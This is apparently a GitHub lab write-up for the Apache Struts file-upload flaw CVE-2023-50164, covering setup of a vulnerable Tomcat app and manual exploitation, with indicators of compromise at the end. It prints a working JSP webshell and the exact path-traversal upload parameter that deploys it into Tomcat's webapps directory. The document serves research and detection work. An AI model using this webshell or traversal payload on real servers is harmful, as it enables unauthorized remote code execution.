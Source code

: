 # Apache Struts RCE (CVE-2023-50164)
## Summary

This vulnerability allows for an attacker to manipulate file upload parameters to enable path traversal affecting the destination of the uploaded file. Under some circumstances this can lead to uploading a malicious file which can be used to perform remote code execution. This affects Struts versions 2.0.0-2.3.3 (EOL), 2.5.0-2.5.32, and 6.0.0-6.3.0.1. This vulnerability is fixed by Struts versions 2.5.33 or greater and 6.3.0.2 or greater

## Prerequisites

This requires a web server hosting a vulnerable web application using Struts ActionSupport and offering file upload functionality. Furthermore, to gain remote code execution, the application server implementing the server side upload logic needs to upload the file to the local filesystem of the webserver and have write permissions to a sensitive directory that would be useful to an attacker such as the webroot to upload a JSP webshell. 

[Additional Details on Mitigating Factors/Prerequisites](https://securityboulevard.com/2023/12/understanding-the-impact-of-the-new-apache-struts-file-upload-vulnerability/)
## Setup

[Exploit Analysis and Lab Setup for Linux and Tomcat 9](https://www.vicarius.io/vsociety/posts/apache-struts-rce-cve-2023-50164)

For this example setup, I used a Windows Host with Tomcat, however this exploit can also be conducted on Linux or with another Servlet of your choice. This will mostly affect the target directories for path traversal and the method of gaining RCE.

#### JDK 17 - Windows Install
> *Apache Tomcat Requires Java(JDK). Version 17 was used during emulation and confirmed to work*

First, if you do not have it already, you need to install JDK 17: [JDK 17 Install](https://www.oracle.com/java/technologies/downloads/#jdk17-windows)
You can check this with `java --version`

#### Maven - Windows Install
>*Usage is for compiling webapps into .war for deployment. Can run on Windows or Linux and transfer compiled .war file to desired destination*

Next, you'll also need to install maven. Below are guides that detail the installation and configuration process
[Maven Windows Install and Setup](https://phoenixnap.com/kb/install-maven-windows)
[Maven Linux Install and Setup](https://www.digitalocean.com/community/tutorials/install-maven-linux-ubuntu)

#### Tomcat - Windows Install and Deploy
>*WARNING: Tomcat Versions higher than 9 will produce an error due to Servlet API version conflict between Struts and Tomcat*

Next, you'll need to install tomcat and configure the service to host the web applications. The easiest way to do this for windows is to use the Windows Service Installer. [Tomcat Install](https://tomcat.apache.org/download-90.cgi)
- Make sure you have JDK installed beforehand, as you will need it to finish installation
- When going through the installer wizard, make sure to set an administrator user and password so as to access the manager app. If you miss this step, you can add/manage users in the `tomcat-users.xml`

By default, the installer should create a new service named something similar to `Apache Tomcat 9.0 Tomcat9`. Make sure this is running, and for ease of use, you can configure it to run automatically on startup.
When this is running, your website should be accessible! Go to 127.0.0.1:8080 in the web browser to check.
>*NOTE: By default, tomcat hosts on port 8080. To change this, you can edit the `server.xml` file in the `conf` folder*

![Successful Tomcat Deployment](./images/Pasted%20image%2020240119131515.png)
> *NOTE: If trying to access from an external machine, such as a kali box, make sure that your networking/DNS is properly configured and that the boxes can communicate, as well as check that no firewalls/filtering are blocking the port/traffic. If hosting on a Windows host, you'll likely need to either disable or modify Windows Defender Firewall rules to allow traffic through to the port you are hosting Tomcat on*
#### Compile and Deploy Vulnerable File Upload Application
For this environment, we'll deploy a basic file upload application that uses a vulnerable version of Apache Struts:
[Github POC Exploit and Vulnerable Struts App](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE)
Download the struts-app folder and contents from the above link. Within the `struts-app` folder, run `mvn clean package`

This should produce an `upload-1.0.0.war` within a newly created `target` subdirectory. To deploy this application, go to the tomcat manager app in the webserver. Find the "Deploy" section, upload the file, and click `Deploy`

>*NOTE: Manager app is only accessible from the localhost by default*

![Tomcat Manager](./images/Pasted%20image%2020240118160002.png)
Make sure that the upload-1.0.0 application is started, and then it should be accessible from `127.0.0.1/upload-1.0.0/upload.action` on the website

![File upload application](./images/Pasted%20image%2020240119113847.png)

Congrats! Your environment is now ready for exploitation
## Execution

### Method 1 - Manual Exploitation

#### Prepare a Webshell to Upload
To gain RCE on Tomcat, we will need to upload a .war webshell to the webapps directory. Similar to how we deployed the upload-1.0.0.war, this will allow us to deploy our own malicious application. You can create your own malicious application, or use the basic jsp webshell below

[Basic jsp webshell:](https://github.com/jakabakos/CVE-2023-50164-Apache-Struts-RCE/blob/main/exploit/webshell.jsp) 
```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    if (cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd, null, null);
            BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
            while ((s = sI.readLine()) != null) {
                output += s + "\n";
            }
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
%>
<%=output %>
```
Save to `webshell.jsp`, and convert into a .war file:
`jar -cvf webshell.war webshell.jsp`
This should create `webshell.war`, which we'll use to deploy our malicious application
#### Use Burp to modify upload parameters
Using a Burp Proxy, go to the file upload application you deployed earlier. Click on `Choose File` and select `webshell.war`. Turn on intercept in Burp, and click `Submit`. Burp should intercept the packet containing your uploaded file data. Send the HTTP POST packet to Repeater, where we will modify 2 of the parameters:
- Set `name="upload` to `name="Upload`
- Add a new upload parameter:
````
Content-Disposition: form-data; name="uploadFileName"; 

..\..\..\..\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\webshell.war
````
>*NOTE: Make sure to modify the form boundaries as well, appending a copy of the one ending with "--" to the end of the packet, and removing the "--" from the original. The image below contains an example of what this looks like when completed*

![Modified HTTP Packet](./images/Pasted%20image%2020240119130729.png)
Send this modified packet, and your webshell should be deployed to Tomcat's webapp directory!
To check if our exploit worked and interact with out webshell, we can use the `cmd` variable at `{0.0.0.0:8080}/webshell/webshell.jsp?cmd=whoami`

![whoami Command run by webshell](./images/Pasted%20image%2020240118171435.png)
>*NOTE:
>Default deployment will create directory with the .war's name containing the jsp file we compiled. 
>Ex: `jar -cvf warname.war jspname.jsp` will be accessible at `/warname/jspname.jsp`*
#### Indicators of Compromise

- Http traffic containing the "Upload" and "uploadFileName" parameters
- Http traffic containing `../` characters
- New or unusual files created/uploaded by the web service to unintended/unexpected locations (Outside of designed upload destination)
	- In particular, the creation of .war files in Tomcat's webapps directory (or a similar event in another servlet) and/or associated deployment of unauthorized web applications
